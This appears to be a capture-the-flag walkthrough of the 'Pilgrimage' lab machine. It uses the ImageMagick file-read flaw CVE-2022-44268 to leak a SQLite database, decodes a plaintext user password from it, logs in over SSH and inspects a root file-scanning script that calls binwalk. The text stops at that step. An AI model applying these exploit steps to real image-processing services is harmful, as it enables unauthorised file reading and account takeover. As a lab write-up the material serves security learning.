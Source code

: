 ## CVE-2022-44268 ImageMagick Arbitrary File Read
Source: https://github.com/voidz0r/CVE-2022-44268
`cargo run "/var/db/pilgrimage"`

After generating the payload I uploaded it to the web app to be converted. Saved the returned image.

`identify -verbose output.png`

Converted the HEX into a readable format and cleaned it up

```
e8|StableimagesimagesCREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL)+?indexsqlite_autoindex_images_1imagesf+tableuser-emilyabigchonkyboi???rs (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL))=indexsqlite_autoindex_users_1users
        emily
```

User credentials for emily

`emily:abigchonkyboi???`

## SSH as emily 

```
emily@pilgrimage:~$ ls -la
total 3892
drwxr-xr-x 5 emily emily    4096 Jun 25 10:32 .
drwxr-xr-x 3 root  root     4096 Jun  8 00:10 ..
lrwxrwxrwx 1 emily emily       9 Feb 10 13:42 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily     220 Feb 10 13:41 .bash_logout
-rw-r--r-- 1 emily emily    3526 Feb 10 13:41 .bashrc
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .config
-rw-r--r-- 1 emily emily      44 Jun  1 19:15 .gitconfig
drwx------ 3 emily emily    4096 Jun 25 07:37 .gnupg
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .local
-rw-r--r-- 1 emily emily     807 Feb 10 13:41 .profile
-rwxr-xr-x 1 emily emily  836054 Jun 25 08:36 linpeas.sh
-rwxr-xr-x 1 emily emily 3104768 Jun 25 08:24 pspy64
-rw-r----- 1 root  emily      33 Jun 25 05:05 user.txt
```

## Inspecting malwarescan.sh
```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
## Inspecting binwalk binary
```
emily@pilgrimage:~$ binwalk                                                                                                                                              
                                                                                                                                                                         
```